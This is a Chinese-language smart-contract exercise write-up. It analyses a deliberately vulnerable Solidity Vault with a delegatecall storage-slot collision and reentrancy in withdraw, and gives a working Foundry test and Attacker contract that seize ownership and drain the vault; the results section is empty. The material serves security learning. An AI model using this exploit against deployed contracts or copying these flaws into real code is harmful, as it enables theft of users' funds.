


# 练习题（02.22）



## 1. 合约代码分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VaultLogic {

  address public owner;
  bytes32 private password;
	
  constructor(bytes32 _password) public {
    owner = msg.sender;
    password = _password;
  }
	
	// 分析：存在漏洞，当状态变量`password`被攻击者通过代理调用获得（通过 Vault 合约中的同槽位非私有变量的值获得），则 owner 可以被攻击者修改
  function changeOwner(bytes32 _password, address newOwner) public {
    if (password == _password) {
        owner = newOwner;
    } else {
      revert("password error");
    }
  }
}

contract Vault {

  address public owner;
  // 分析：状态变量`logic`的槽位与逻辑合约 VaultLogic 的`password`槽位一致，由于 delegatecall 使用的存储为代理合约（本合约）的存储，因此将本合约`logic`作为 delegatecall 调用 VaultLogic 合约的{changeOwner}方法的第一个输入值，会通过密码检查（即 logic == password，但类型不同）
  VaultLogic logic;
  mapping (address => uint) deposites;
  bool public canWithdraw = false;

  constructor(address _logicAddress) public {
    logic = VaultLogic(_logicAddress);
    owner = msg.sender;
  }


  fallback() external {
    (bool result,) = address(logic).delegatecall(msg.data);
    if (result) {
      this;
    }
  }

  receive() external payable {

  }

  function deposite() public payable { 
    deposites[msg.sender] += msg.value;
  }

  function isSolve() external view returns (bool){
    if (address(this).balance == 0) {
      return true;
    } 
  }
	
	// 分析：由于攻击者可以通过{changeOwner}方法修改 owner，因此{openWithdraw}方法对调用者的检查失效了
  function openWithdraw() external {
    if (owner == msg.sender) {
      canWithdraw = true;
    } else {
      revert("not owner");
    }
  }
	
	// 分析：未实现“检查-更改-交互”的设计模式，也未设置重入锁，可被重入攻击
  function withdraw() public {
    require(canWithdraw, "cannot withdraw");
    if(deposites[msg.sender] >= 0) {
      (bool result,) = msg.sender.call{value: deposites[msg.sender]}("");
      if(result) {
        deposites[msg.sender] = 0;
      }
    }
  }
}
```

## 2. 测试代码与攻击合约

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Vault.sol";


contract VaultExploiter is Test {
    Vault public vault;
    VaultLogic public logic;

    address owner = address (1);
    address palyer = address (2);

    function setUp() public {
        vm.deal(owner, 1 ether);

        vm.startPrank(owner);
        logic = new VaultLogic(bytes32("0x1234"));
        vault = new Vault(address(logic));

        vault.deposite{value: 0.1 ether}();
        vm.stopPrank();

    }

    function testExploit() public {
        vm.deal(palyer, 1 ether);
        vm.startPrank(palyer);

        // add your hacker code.（增加的代码：实现攻击逻辑）
        Attacker attacker =  new Attacker(address(vault));
        bytes32 data = bytes32(uint256(uint160(address(logic))));
        bytes memory callData = abi.encodeWithSignature("changeOwner(bytes32,address)", data, address(attacker));
        address(vault).call(callData);
        attacker.openWithdraw();
        attacker.deposite{value: 0.1 ether}();
        attacker.withdraw();
        attacker.transferToOwner();
        uint256 balanceOfPalyer = palyer.balance;
        console.log(balanceOfPalyer);
        require(vault.isSolve(), "solved");
        vm.stopPrank();
    }

}

/**
 * @notice 攻击 Vault 合约的攻击合约
 */
contract Attacker {
    address public vaultAddr;
    address private owner;

    constructor(address _vaultAddr) {
        vaultAddr = _vaultAddr;
        owner = msg.sender;
    }

    function deposite() public payable {
        vaultAddr.call{value: msg.value}(abi.encodeWithSignature("deposite()"));
    }

    function openWithdraw() public {
        vaultAddr.call(abi.encodeWithSignature("openWithdraw()"));
    }

    function withdraw() public {
        vaultAddr.call(abi.encodeWithSignature("withdraw()"));
    }

    function transferToOwner() public {
        uint256 amount = address(this).balance;
        payable(owner).call{value: amount}("");
    }

    receive() external payable {
        if (vaultAddr.balance > 0) {
            withdraw();
        }
    }
}
```

## 3. 测试结果

